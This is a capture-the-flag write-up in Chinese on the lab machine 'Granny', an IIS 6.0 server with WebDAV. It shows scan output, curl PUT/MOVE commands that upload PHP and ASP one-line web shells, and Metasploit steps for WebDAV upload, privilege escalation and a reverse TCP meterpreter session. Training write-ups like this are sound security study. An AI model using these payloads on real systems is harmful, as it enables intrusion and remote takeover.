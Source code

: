 ```yaml
---
title: Granny（webDAV put+move获取webshell）
categories:
- training
tags:
- training
---
```

10.10.10.15

## scan
```
80/tcp open  http    Microsoft IIS httpd 6.0

http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unkown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Date: Mon, 18 Feb 2019 11:05:15 GMT
```
搜索关键字“WebDAV”，检查一下 “Microsoft IIS WebDAV Write Access Code Execution”

#### trying1
nikto -h 10.10.10.15
```
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5647: HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.

```
参考资料：https://www.cnblogs.com/cnhacker/p/6999102.html
[curl常用方法](https://www.cnblogs.com/softidea/p/6183660.html)

创建了1.html，成功
curl -X PUT http://10.10.10.15/1.html -d "abcdef"

准备将php一句话写入1.html，失败
```
curl -X PUT http://10.10.10.15/1.html -d "<?php system($_GET['cmd']) ?>"
curl -X MOVE --header 'Destination:http://10.10.10.15/1.html' 'http://10.10.10.15/1.php'
```
(nikto扫描结果)发现iis 用的是asp，而不是php.
```
curl -X PUT http://10.10.10.15/1.html -d " <%eval request("cmd")%> "
curl -X MOVE --header 'Destination:http://10.10.10.15/1.asp' http://10.10.10.15/1.html
```
## msf：获得一个shell
job.rc :
```
use exploit/windows/iis/iis_webdav_upload_asp
set RHOST 10.10.10.15
set LHOST 10.10.14.3
run
```
msfconsole -r job.rc

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-22/3.PNG)

#### info:
Windows Server 2003
```
User accounts for \\GRANNY

-------------------------------------------------------------------------------
Administrator            ASPNET                   Guest                    
IUSR_GRANPA              IWAM_GRANPA              Lakis                    
SUPPORT_388945a0         
The command completed successfully.
```
## 尝试提权
#### exp提权
依次尝试suggerser提示的exp，全部失败
```
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_032: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed

```

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-22/4.PNG)

## writeup
之前使用`getuid`命令，但是结果报错，还以为是权限不够。

msf进程存在于内存之中，以下命令将进程迁移为稳定进程，再使用`getuid`命令，就不会报错了。
```
background
use post/windows/manage/migrate
set SESSION 1
run

use exploit/windows/local/ppr_flatten_rec
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.14.7
set LPORT 8899
set SESSION 1
```
## 总结

失败的提示
```
[*] Started reverse TCP handler on 10.10.14.7:8899 
[*] Launching notepad to host the exploit...
[+] Process 208 launched.
[*] Reflectively injecting the exploit DLL into 208...
[*] Injecting exploit into 208 ...
[*] Exploit injected. Injecting payload into 208...
[*] Payload injected. Executing exploit...
[*] Exploit thread executing (can take a while to run), waiting 30 sec ...
[*] Exploit completed, but no session was created.
```
waiting 30 sec，当看到这个提示，于是执行失败以后，输入以下命令。
```
set wait 20
```
